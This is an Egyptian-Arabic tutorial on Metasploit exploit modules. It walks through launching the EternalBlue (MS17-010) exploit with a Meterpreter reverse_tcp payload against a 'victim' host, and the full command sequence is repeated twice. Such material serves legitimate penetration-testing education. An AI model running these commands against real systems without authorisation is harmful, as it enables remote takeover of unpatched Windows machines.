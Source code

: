 # **استخدام وحدات الاستغلال (Using Exploit Modules) – ببساطة شديدة!**

## **📌 يعني إيه وحدات الاستغلال (Exploit Modules)؟**

في **Metasploit**، عندك حاجة اسمها **وحدات الاستغلال**، ودي عبارة عن **أدوات جاهزة بتساعدك في استغلال الثغرات** بدل ما تكتب كود من الصفر.

💡 يعني لو عندك ثغرة معروفة، مش لازم تبرمج استغلال ليها بنفسك، ممكن تدور في Metasploit وتشوف إذا كان فيه وحدة استغلال جاهزة ليها، وتستخدمها على طول! 🔥

---

## **🎯 أنواع وحدات الاستغلال في Metasploit**

في Metasploit، فيه **4 أنواع رئيسية من وحدات الاستغلال**:

1️⃣ **Exploit Modules** – وحدات الاستغلال الجاهزة اللي بتنفذ الهجوم على الثغرة.  
2️⃣ **Payloads** – أكواد بتنزل على الجهاز المستهدف عشان تفتح اتصال عكسي أو تتحكم فيه.  
3️⃣ **Encoders** – بتساعد في إخفاء الاستغلال عشان يتخطى الحماية.  
4️⃣ **Auxiliary Modules** – أدوات إضافية زي الفحص والمسح وجمع المعلومات.

---

## **🚀 خطوات استخدام وحدات الاستغلال في Metasploit**

### **🟢 1. تشغيل Metasploit Console**

📌 شغل الـ **MSFConsole** باستخدام الأمر:

```bash
msfconsole
```

---

### **🟢 2. البحث عن وحدة استغلال (Exploit Module)**

📌 لو عايز تدور على استغلال لثغرة معينة، استخدم:

```bash
search smb
```

🔹 ده هيجيب لك كل الثغرات المرتبطة بـ SMB، زي **MS17-010 (EternalBlue)**.

---

### **🟢 3. اختيار وحدة الاستغلال المناسبة**

📌 لو لقيت الاستغلال اللي عايزه، استخدمه كده:

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

🔹 كده انت اخترت وحدة الاستغلال اللي هتستخدمها.

---

### **🟢 4. ضبط الإعدادات (Set Options)**

📌 بعد اختيار الاستغلال، لازم تضبط الإعدادات زي IP الضحية وIP جهازك:

```bash
set RHOSTS 192.168.1.1   # جهاز الضحية
set LHOST 192.168.1.2    # جهازك اللي هيتلقى الاتصال العكسي
set LPORT 4444           # البورت اللي هيشتغل عليه الاتصال
```

---

### **🟢 5. اختيار الـ Payload المناسب**

📌 الـ **Payload** هو الكود اللي هيتنفذ بعد نجاح الاستغلال، وده مثال على اختيار Meterpreter:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

---

### **🟢 6. تنفيذ الاستغلال! 🚀**

📌 بمجرد ضبط كل الإعدادات، شغل الاستغلال بالأمر ده:

```bash
exploit
```

🔹 **لو كل حاجة تمام، هيتم تنفيذ الثغرة، وهيجيلك Session تتحكم من خلالها في الضحية باستخدام Meterpreter!** 🔥

---

## **💡 الخلاصة بالمصري:**

1️⃣ **وحدات الاستغلال (Exploit Modules) في Metasploit بتسهّل عليك تنفيذ الثغرات الجاهزة.**  
2️⃣ **ممكن تدور على ثغرة معينة باستخدام أمر `search` في Metasploit.**  
3️⃣ **بعد اختيار الثغرة، بتضبط إعدادات الهدف (`set RHOSTS` و `set LHOST`).**  
4️⃣ **بتختار الـ Payload المناسب عشان تفتح اتصال عكسي وتتحكم في الضحية.**  
5️⃣ **بتنفذ الاستغلال باستخدام أمر `exploit`، ولو نجح هتدخل على النظام المستهدف!**

---

## **🛠️ الخطوات العملية لاستخدام وحدات الاستغلال**

✅ **1. تشغيل Metasploit:**

```bash
msfconsole
```

✅ **2. البحث عن استغلال معين:**

```bash
search smb
```

✅ **3. اختيار استغلال معين:**

```bash
use exploit/windows/smb/ms17_010_eternalblue
```

✅ **4. ضبط إعدادات الهدف:**

```bash
set RHOSTS 192.168.1.1
set LHOST 192.168.1.2
set LPORT 4444
```

✅ **5. اختيار الـ Payload:**

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```

✅ **6. تنفيذ الاستغلال:**

```bash
exploit
```

🎯 **لو الاستغلال نجح، هتدخل على الضحية، وتقدر تكمل مرحلة ما بعد الاختراق!** 🔥